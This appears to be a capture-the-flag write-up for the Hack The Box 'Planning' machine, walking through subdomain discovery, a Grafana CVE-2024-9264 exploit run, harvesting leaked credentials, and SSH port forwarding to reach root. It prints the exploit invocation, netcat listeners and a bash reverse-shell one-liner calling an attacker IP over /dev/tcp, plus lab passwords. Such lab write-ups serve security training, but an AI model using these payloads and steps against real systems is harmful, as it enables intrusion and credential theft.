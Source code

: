 # 🧠 Hack The Box – Planning (Easy)

## 📌 Machine Info
- **Name:** Planning  
- **Difficulty:** Easy  
- **OS:** Linux  
- **IP Address:** 10.10.11.68  
- **Author:** Vishnu S  
- **Completed on:** July 6, 2025

---

## 🔍 Summary

The Planning machine involves:
- Virtual host enumeration  
- Exploiting Grafana (CVE-2024-9264)  
- Docker container escape  
- Privilege escalation via SSH port forwarding and command injection  

![Planning Page](screenshots/planning.png)

---

## 🛠 Tools Used
- `nmap` – Port scanning  
- `ffuf` – Subdomain enumeration  
- `python3` – Exploit execution  
- `netcat` – Reverse shell listener  
- `ssh` – Remote login & port forwarding  
- `linPEAS` – Privilege escalation enumeration  

---

## 🧾 Walkthrough

### 1️⃣ Initial Enumeration

```bash
nmap 10.10.11.68
````

![Nmap Output](screenshots/nmap-scan.png)

---

### 2️⃣ Virtual Host Setup

Modified `/etc/hosts`:

```
10.10.11.68 planning.htb
```

![Host Added](screenshots/added-host.png)

---

### 3️⃣ Subdomain Discovery

Used FFUF to find subdomains:

```bash
ffuf -u http://planning.htb -H "Host:FUZZ.planning.htb" \
-w /usr/share/seclists/Discovery/DNS/namelist.txt -fs 178 -t 100
```

![FFUF Scan](screenshots/fuff-scan.png)
![Host Added Again](screenshots/added-host1.png)

Discovered: `grafana.planning.htb`

---

### 4️⃣ Grafana Login

Visited: `http://grafana.planning.htb`

Used credentials:

```
Username: admin
Password: 0D5oT70Fq13EvB5r
```

![Login Page](screenshots/grafana-login.png)
![Version Info](screenshots/grafana-version.png)

---

### 5️⃣ Exploiting Grafana (CVE-2024-9264)

Started a reverse shell listener:

```bash
nc -lvnp 9001
```

![Listener](screenshots/listener.png)

Ran exploit:

```bash
python3 poc.py --url http://grafana.planning.htb \
--username admin \
--password 0D5oT70Fq13EvB5r \
--reverse-ip 10.10.14.96 \
--reverse-port 9001
```

![Exploit Script](screenshots/python-exploit.png)
![Reverse Shell Access](screenshots/exploited.png)

✅ Reverse shell obtained!

---

### 6️⃣ Docker Escape

Checked environment variables:

```bash
env
```

Found:

```
Username: enzo
Password: RioTecRANDEntANT!
```

![Found Creds](screenshots/found-username-password.png)

SSH login:

```bash
ssh enzo@10.10.11.68
```

![SSH Access](screenshots/ssh.png)

Captured user flag:

```bash
cat /home/enzo/user.txt
```

![User Flag](screenshots/userflag.png)

---

### 7️⃣ Privilege Escalation

Ran linPEAS and discovered crontab entry:

```bash
cat /opt/crontabs/crontab.db
```

Found:

```
Username: root
Password: P4ssw0rdS0pRi0T3c
```

![LinPEAS Output](screenshots/linpeas-crontab.png)
![Root Credentials](screenshots/found-credentials.png)

---

### 8️⃣ Internal Service & Reverse Shell to Root

Discovered local port 8000:

![Local Port](screenshots/port-locally.png)

Port forwarding with SSH:

```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```

![Port Forwarding](screenshots/port-forwarding.png)

Visited: `http://localhost:8000`

![Visited 8000](screenshots/visited8000.png)

Injected reverse shell payload:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.96/8888 <&1'
```

![Injection](screenshots/injected.png)

Set up listener:

```bash
nc -lvnp 8888
```

![Listener Ready](screenshots/setup-listener.png)

Got root shell! 🎉

![Root Shell](screenshots/gained-rootshell.png)

---

## 🏁 Flags Captured

```bash
cat /home/enzo/user.txt
cat /root/root.txt
```

![User Flag](screenshots/user-flag.png)
![Root Flag](screenshots/root-flag.png)

---

## ✅ Conclusion

The Planning machine demonstrated a solid exploitation path:

* Default credentials in Grafana
* Environment variable leaks in Docker
* SSH access and internal port forwarding
* Reverse shell injection via internal admin panel

---

## 🔗 References

* [CVE-2024-9264 – Grafana RCE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-9264)
* [Exploit PoC by z3k0sec](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)
* [HackTricks Book](https://book.hacktricks.xyz/)
* [Medium Write-up](https://medium.com/@ypopova3/planning-hackthebox-fd3d5fcb8fc7)

